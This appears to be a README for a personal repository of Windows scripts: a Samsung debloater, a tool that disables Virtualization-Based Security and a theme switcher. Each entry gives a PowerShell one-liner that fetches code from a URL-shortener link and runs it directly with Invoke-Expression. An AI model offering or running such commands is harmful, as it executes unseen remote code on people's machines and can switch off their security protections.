 # Scripts

This repostiory contains scripts that I, or other people, have written in order to do either one or multiple of the following:

1. Automate tasks

2. Make life easier


## Run these scripts:

### 1. Debloat-Samsung-OneUI-Core-3.1

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://cutt.ly/MO2ZW72'))
```


### 2. Disable-VirtualizationBasedSecurity

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://cutt.ly/PO2XiBb'))
```

### 3. Scheduled-Automatic-Theme-Switcher

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://cutt.ly/dO2XcEg'))
```